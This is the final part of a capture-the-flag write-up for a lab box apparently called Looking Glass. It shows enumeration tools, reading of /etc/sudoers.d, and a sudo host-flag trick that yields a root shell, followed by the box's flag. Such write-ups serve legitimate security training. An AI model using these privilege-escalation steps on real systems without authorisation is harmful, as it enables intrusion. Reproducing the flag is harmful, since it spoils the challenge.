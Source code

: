 - Try linpeas.sh, because I'm pretty manual inspection-wise I didn't miss anything hmm..

- After several tools of enumeration (**linpeas was not working correctly, use linux smart enumeration instead**), you will eventually found out how to read the sudoer files

```shell
alice@looking-glass:~$ cd /etc/sudoers.d
alice@looking-glass:/etc/sudoers.d$ ls
README  alice  jabberwock  tweedles
alice@looking-glass:/etc/sudoers.d$ ls -la
total 24
drwxr-xr-x  2 root root 4096 Jul  3  2020 .
drwxr-xr-x 91 root root 4096 Nov 27 22:40 ..
-r--r-----  1 root root  958 Jan 18  2018 README
-r--r--r--  1 root root   49 Jul  3  2020 alice
-r--r-----  1 root root   57 Jul  3  2020 jabberwock
-r--r-----  1 root root  120 Jul  3  2020 tweedles
alice@looking-glass:/etc/sudoers.d$ cat alice
alice ssalg-gnikool = (root) NOPASSWD: /bin/bash
```

```shell
alice@looking-glass:/etc/sudoers.d$ cat alice
alice ssalg-gnikool = (root) NOPASSWD: /bin/bash
alice@looking-glass:/etc/sudoers.d$ sudo -h ssalg-gnikool -l
sudo: unable to resolve host ssalg-gnikool
Matching Defaults entries for alice on ssalg-gnikool:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User alice may run the following commands on ssalg-gnikool:
    (root) NOPASSWD: /bin/bash
alice@looking-glass:/etc/sudoers.d$ sudo -h ssalg-gnikool /bin/bash
sudo: unable to resolve host ssalg-gnikool
root@looking-glass:/etc/sudoers.d# 
```

- We've got root!

- `thm{bc2337b6f97d057b01da718ced6ead3f}`

# Final Words:

- Another pretty interesting and hard box. Really challenge your PrivEsc and Enumeration skill!